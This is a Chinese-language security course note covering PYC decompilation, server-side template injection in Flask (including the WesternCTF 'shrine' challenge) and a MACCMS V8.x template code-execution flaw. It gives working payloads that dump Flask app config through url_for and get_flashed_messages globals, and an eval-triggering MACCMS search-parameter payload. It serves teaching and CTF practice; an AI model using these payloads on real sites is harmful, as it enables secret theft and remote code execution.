 # WEB攻防-Python考点&CTF与CMS-SSTI模版注入&PYC反编译

![day23](/Users/yangluchao/Documents/GitHub/security/image/day23.png)

![day23_1](/Users/yangluchao/Documents/GitHub/security/image/day23_1.png)

![day23_2](/Users/yangluchao/Documents/GitHub/security/image/day23_2.png)

```
#知识点：
1、PYC文件反编译
2、Python-Web-SSTI
3、SSTI模版注入利用分析
```

演示案例：

-   PY反编译-PYC编译文件反编译源码
-   SSTI入门-原理&分类&检测&分析&利用
-   SSTI考点-CTF靶场-[WesternCTF]shrine
-   SSTI考点-CMS源码-MACCMS_V8.X执行

```
#PY反编译-PYC编译文件反编译源码
pyc文件是py文件编译后生成的字节码文件(byte code)，pyc文件经过python解释器最终会生成机器码运行。因此pyc文件是可以跨平台部署的，类似Java的.class文件，一般py文件改变后，都会重新生成pyc文件。
真题附件：http://pan.baidu.com/s/1jGpB8DS
反编译平台：
https://tool.lu/pyc/ 
http://tools.bugscaner.com/decompyle/
反编译工具：https://github.com/wibiti/uncompyle2

#SSTI入门-原理&分类&检测&分析&利用
1、什么是SSTI？有什么漏洞危害？
漏洞成因就是服务端接收了用户的恶意输入以后，未经任何处理就将其作为 Web 应用模板内容的一部分，模板引擎在进行目标编译渲染的过程中，执行了用户插入的可以破坏模板的语句，因而可能导致了敏感信息泄露、代码执行、GetShell 等问题。其影响范围主要取决于模版引擎的复杂性。
2、如何判断检测SSTI漏洞的存在？
-输入的数据会被浏览器利用当前脚本语言调用解析执行
3、SSTI会产生在那些语言开发应用？
-见上图
4、SSTI安全问题在生产环境那里产生？
-存在模版引用的地方，如404错误页面展示
-存在数据接收引用的地方，如模版解析获取参数数据

#SSTI考点-CTF靶场-[WesternCTF]shrine
1、源码分析SSTI考点
2、测试判断SSTI存在
3、分析代码过滤和FLAG存储
4、利用Flask两个函数利用获取
https://blog.csdn.net/houyanhua1/article/details/85470175
url_for()函数是用于构建操作指定函数的URL
get_flashed_messages()函数是获取传递过来的数据
/shrine/{{url_for.__globals__}}
/shrine/{{url_for.__globals__['current_app'].config}}
/shrine/{{get_flashed_messages.__globals__}}
/shrine/{{get_flashed_messages.__globals__['current_app'].config}}

#SSTI考点-CMS源码-MACCMS_V8.X执行
Payload:index.php?m=vod-search&wd={if-dddd:phpinfo()}{endif-dddd}
1、根据wd传递的代码找指向文件
2、index->vod->tpl->ifex->eval
3、构造Payload带入ifex并绕过后执行

```

